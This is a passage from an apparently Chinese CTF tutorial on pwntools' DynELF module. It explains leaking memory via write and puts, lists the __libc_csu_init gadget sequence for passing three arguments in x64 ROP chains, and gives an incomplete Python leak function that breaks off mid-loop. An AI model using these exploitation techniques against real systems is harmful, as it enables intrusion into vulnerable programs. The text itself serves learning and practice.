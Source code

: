 ### 2.DynELF模块实战 ###

当然，以上仅仅是实现利用的基本条件，不同的目标程序和运行环境都会有一些坑需要绕过。接下来，我们主要针对write和puts这两个普遍用来泄漏信息的函数在实际配合DynELF工作时可能遇到的问题，给出相应的解决方法。


#### (1)write函数 ####
write函数原型是write(fd, addr, len)，即将addr作为起始地址，读取len字节的数据到文件流fd（0表示标准输入流stdin、1表示标准输出流stdout）。(比如write(1,addr,len)就是写到屏幕)

write函数的**优点是**可以读取后打印**任意长度**的内存信息，**即它的打印长度只受len参数控制**，**缺点是需要传递3个参数**，特别是**在x64环境下**，可能会带来一些**困扰**。


[在x64环境下，函数的参数是通过寄存器传递的](#Mark)，**rdi对应第一个参数，rsi对应第二个参数，rdx对应第三个参数，往往凑不出类似“pop rdi; ret”、“pop rsi; ret”、“pop rdx; ret”等3个传参的gadget**。此时，可以考虑[使用__libc_csu_init函数的通用gadget](#Mark1)。**简单的说，就是通过__libc_csu_init函数的两段代码来实现3个参数的传递**，这**两段代码普遍存在于x64二进制程序！！**中，只不过是**间接地传递参数**，而不像原来，是通过pop指令直接传递参数。

第一段代码如下：

    .text:000000000040075A   pop  rbx  #需置为0，为配合第二段代码的call指令寻址
    .text:000000000040075B   pop  rbp  #需置为1
	.text:000000000040075C   pop  r12  
	#需置为要调用的函数地址，注意是got地址而不是plt地址，因为第二段代码中是call指令
    
    .text:000000000040075E   pop  r13  #write函数的第三个参数
    .text:0000000000400760   pop  r14  #write函数的第二个参数
    .text:0000000000400762   pop  r15  #write函数的第一个参数
    .text:0000000000400764   retn #ret到第二段代码

第二段代码如下：
 
    .text:0000000000400740   mov  rdx, r13 #%rdx存储argu3
    .text:0000000000400743   mov  rsi, r14#%rsi存储argu2
    .text:0000000000400746   mov  edi, r15d #%rdi存储argu1，至此x64下间接设置好write的3个参数
    .text:0000000000400749   call  qword ptr [r12+rbx*8]   
	#由于此前rbx置为0，r12置为要调用的函数地址，故[r12+rbx*8]=[r12]，这里就可以成功调用带有3个参数的函数

这样，我们便解决了write函数在leak信息中存在的问题，具体的应用会放到后面的3道题目中讲。

#### (2)puts函数 ####

> **puts(addr)**：将**addr作为起始地址输出字符串，直到遇到“\x00”字符为止**。

也就是说，puts函数**输出的数据长度是不受控的**，只要我们输出的信息中包含**\x00截断符，输出就会终止**，且会**自动将“\n”追加到输出字符串的末尾[但是不包含0x00]**，这是puts函数的**缺点**，而**优点就是需要的参数少**，只有1个，无论在x32还是x64环境下，都容易调用。

为了**克服输入不受控这一缺点[输出不受控就无法确定puts出来的哪个部分是我们需要的]**，我们考虑**利用puts函数输出的字符串最后一位为“\n“这一特点，分两种情况来解决**。

**①puts输出完后就没有其他输出**，在这种情况下的leak函数可以这么写。

    def leak(address):
      count = 0
      data = ''
      payload = xxx
      p.send(payload)
      print p.recvuntil('xxx\n') #一定要在puts前释放完输出，接下来是puts函数读取到、待输出的内容
      up = ""
      while True:
	    c = p.recv(numb=1, timeout=1) #获取当前字符
	    #由于接收完标志字符串结束的回车符后，就没有其他输出了，故先等待1秒钟，如果确实接收不到了，就说明输出结束了
	    #为了与不是标志字符串结束的回车符（0X0A）混淆[可能puts(addr)的addr到0x00之前有‘0x0a’的字符，但是个字符
		不是puts结束后自行添加的0x0a，所以也属于输入的字符串部分]。这也利用了recv函数的timeout参数，即当timeout
		结束后仍得不到输出，则直接返回空字符串””
	    count += 1
		#up表示接收的上一个字符，c表示当前字符
	    if up == '\n' and c == "":#接收到的上一个字符为回车符且当前接收不到新字符,说明puts读到0x00,确实结束了
	      buf = buf[:-1] #删除puts函数输出的末尾回车\n。
	      buf += "\x00" #添加一个\0，标识字符串结束
	      break #退出while(true)循环
	 